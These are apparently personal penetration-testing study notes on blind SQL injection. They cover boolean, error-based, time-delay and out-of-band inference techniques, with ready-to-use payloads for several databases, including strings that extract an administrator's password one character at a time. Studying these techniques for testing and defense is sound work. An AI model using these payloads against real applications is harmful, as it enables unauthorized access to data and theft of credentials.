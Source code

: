 ## Blind SQL Injection Vulnerabilities
A blind SQL injection is where the application doesn't return the results of the query or the details of any database errors within its response. These vulnerabilities can still be exploited to access unauthorized data, however, techniques are generally more complicated and difficult to perform.

Depending on the nature of the vulnerability, the following techniques can be used to exploit blind SQLi vulnerabilities:
- You can change the logic of the query to trigger a detectable difference in the application's response depending on the truth of a single condition. This might involve injecting a new condition into some Boolean logic, or conditionally triggering an error such as a divide-by-zero.
- You can conditionally trigger a time delay in the processing of the query, allowing you to infer the truth of the condition based on the response time.
- You can trigger an out-of-band network interaction, using [OAST](https://alipali737.github.io/pen-test-docs/Knowledge/Testing/Application%20Security%20Testing%20Methods.html#out-of-band-application-security-testing-oast) techniques. Often you can directly exfiltrate data via the out-of-band channel eg. placing the data into a DNS lookup for a domain you control.

It is important to ensure that the injection is being treated as SQL and not something else, an easy way to do this is my trying to execute a simple SQL syntax (like string concatenation) and something the produced the opposite:
{% highlight sql %}
Oracle: 
a' || (SELECT '' FROM dual) || '
a' || (SELECT '' FROM table-doesnt-exist) || '
{% endhighlight %}

You can test a single boolean condition and trigger a database error if the condition is true.

|   |   |
|---|---|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`|
|Microsoft|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`|
|PostgreSQL|`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`|

This can then be expanded such as:
{% highlight sql %}
SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator'
{% endhighlight %}

You can determine if a table exists by searching for the first row in a table:
{% highlight sql %}
SELECT '' FROM users WHERE ROWNUM = 1
{% endhighlight %}

A nice way to determine the length of a field could be by iterating over a condition of its length:
{% highlight sql %}
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a'
{% endhighlight %}

For cracking the value you can repeat a similar technique by testing each letter one by 1:
{% highlight sql %}
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='b'
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='c'
...
' AND (SELECT SUBSTRING(password,15,1) FROM users WHERE username='administrator')='a'
' AND (SELECT SUBSTRING(password,16,1) FROM users WHERE username='administrator')='a'
{% endhighlight %}
